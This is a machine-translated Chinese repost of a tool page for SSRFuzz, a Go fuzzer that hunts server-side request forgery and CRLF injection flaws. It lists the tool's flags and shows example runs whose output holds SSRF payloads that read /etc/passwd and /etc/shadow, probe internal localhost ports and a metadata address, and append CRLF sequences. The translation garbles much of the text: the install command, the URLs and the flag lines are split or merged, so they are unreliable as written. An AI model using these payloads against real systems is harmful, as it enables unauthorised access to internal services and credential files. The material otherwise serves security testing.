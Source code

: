 # SSRFuzz:一个发现服务器端请求伪造漏洞的工具，具有 CRLF 链接功能

> 原文：<https://kalilinuxtutorials.com/ssrfuzz/>

[![SSRFuzz : A Tool To Find Server Side Request Forgery Vulnerabilities, With CRLF Chaining Capabilities](img/e1991ef4023ab0c96a6277f9178978ff.png "SSRFuzz : A Tool To Find Server Side Request Forgery Vulnerabilities, With CRLF Chaining Capabilities")](https://1.bp.blogspot.com/-dyU7t-eIYg8/YEZ2J--vTXI/AAAAAAAAIeg/Yk7BPj3Ryjs7bv4g73LOZ9zUc3DCVKvLQCLcBGAsYHQ/s728/SSRFuzz%25281%2529.png)

**SSRFuzz** 是一个发现服务器端请求伪造漏洞的工具，具有 CRLF 链接功能。

**为什么？**

*   我想用 Golang 编写一个并发工具
*   我想模糊 SSRF 漏洞的参数，以及模糊 CRLF 注入的路径和参数
*   我受到了 Orange 将这些类型的漏洞链接在一起的工作的启发([https://blog.orange.tw](https://blog.orange.tw))

**安装**

对 intsall 运行以下命令

**去 get-u github . com/ryandamour/SSR fuzz**

**用途**

**用法:**
ssrfuzz scan【Flags】
**Flags:**
-b，–call-back string Add callback for SSRF fuzzing(即:https://github . com/ROP nop/server less _ toolkit/tree/master/ssrf _ slack)
-c，–Cookie string Cookie to use for requests
–crlf-path 将 crlf 有效载荷添加到所有可用路径(即:site.com/%0Atest.php)
–delay int 每个线程在请求之间等待的时间(以毫秒计 –HTTP-Method string HTTP Method–GET 或 POST(默认“GET”)
-o，–输出字符串保存结果的位置
–Skip-crlf 跳过 crlf 模糊
–Skip-network 跳过网络模糊
–Skip-scheme 跳过方案模糊
-s，–Slack-web hook string Slack web hook 将结果发送到通道
-t，–threads int 运行 ssrfuzz 的线程数(默认为 50)
–time out int Linux x86 _ 64)apple WebKit/537.36(KHTML，像 Gecko)Chrome/81 . 0 . 4044 . 138 Safari/537.36 ")
-v，–verbose 详细输出

**用法:
echo " http://URL _ to _ fuzz " | ssrfuzz scan
cat file _ of _ domains . txt | ssrfuzz scan
ssrfuzz scan-d file _ of _ domains . txt**

*扫描 http 和 scheme 有效负载 w/crlf:

echo " http://192 . 168 . 1 . 10/test . PHP？u=" | go run main.go scan
[！]方案有效载荷匹配:

* http://192 . 168 . 1 . 10/test . PHP？u=file://etc/passwd 200
[！]发现有趣的有效载荷
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:80 200
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:8080 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:443 500
* http://192 . 168 . 1 . 10 test . PHP？u = http://127 . 1 . 0 . 0:22 500
* http://192 . 168 . 1 . 10/test . ph？u = http://127 . 1 . 0 . 0:25 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:445 500
[！]发现有趣的有效载荷
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:80% 23% OA 200
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:80% 23% OA 200
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:8080% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:8080% 23% OA 500

*仅扫描 http 有效负载 w/crlf:

echo " http://192 . 168 . 1 . 10/test . PHP？u = " | go run main . go scan–skip-scheme

[！]找到了有趣的有效载荷
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:80% 23% OA 200
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:80% 23% OA 200
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:8080% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:8080% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:443% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:443% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:25% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:25% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:22% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:22% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:445% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:445% 23% OA 500

*仅扫描不带 crlf 的 http 有效负载:

echo " http://192 . 168 . 1 . 10/test . PHP？u = " | go run main . go scan–skip-scheme–skip-crlf
[！]发现有趣的有效载荷
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:80 200
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:8080 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:443 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:22 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:25 500
* http://192 . 168 . 1 . 10/test . PHP？u=http://127.1.0.0:445 500

*仅扫描不带 crlf 的方案有效负载:

echo " http://192 . 168 . 1 . 10/test . PHP？u = " | go run main . go scan–skip-network–skip-crlf

【！]发现有趣的有效载荷
* http://192 . 168 . 1 . 10/test . PHP？u = file:///etc/passwd 200
* http://192 . 168 . 1 . 10/test . PHP？u = file:///etc/shadow 500
* http://192 . 168 . 1 . 10/test . PHP？u =文件://169.254.169.254/ 500

[**Download**](https://github.com/ryandamour/ssrfuzz)